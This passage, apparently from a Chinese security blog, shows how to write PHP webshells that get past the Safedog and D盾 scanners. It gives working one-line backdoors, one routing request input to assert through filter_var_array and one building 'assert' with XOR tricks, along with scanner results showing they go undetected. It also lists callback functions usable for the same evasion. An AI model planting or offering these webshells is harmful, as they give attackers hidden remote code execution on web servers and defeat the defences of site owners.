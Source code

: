 filter_var_array() 函数获取多项变量，并进行过滤。

| 参数  | 描述                                                         |
| :---- | :----------------------------------------------------------- |
| array | 必需。规定带有字符串键的数组，包含要过滤的数据。             |
| args  | 可选。规定过滤器参数数组。合法的数组键是变量名。合法的值是过滤器 ID，或者规定过滤器、标志以及选项的数组。该参数也可以是一个单独的过滤器 ID，如果是这样，输入数组中的所有值由指定过滤器进行过滤。 |



```php
<?php
    filter_var_array(array('test' => $_REQUEST['x']), array('test' => array('filter' => FILTER_CALLBACK, 'options' => 'assert')));
?>
```

| 安全狗 | D盾             |
| :----- | :-------------- |
| 0级    | 级别 5 已知后门 |

## 异或

P 神的一篇经典文章 [一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html#) 里面提到了异或的姿势。我们只要稍微修改一下也可以轻松过掉安全狗：

```php
<?php 
    $a = ('!'^'@').'s'.'s'.'e'.'r'.'t';
    $a($_POST['x']);
?>
```

此时就已经过掉安全狗了，D 盾检测级别降到了 3 级，检测结果如下：

| 安全狗       | D盾             |
| :----------- | :-------------- |
| 0 个安全风险 | 级别 3 变量函数 |



安全狗：

```php
1.array_filter
2.array_map
3.array_udiff
4.array_walk
5.array_walk_recursive
6.call_user_func
7.call_user_func_array
8.filter_var
9.register_shutdown_function
10.register_tick_function
11.uasort
```

D盾

![0YH3rt.png](https://s1.ax1x.com/2020/10/05/0YH3rt.png)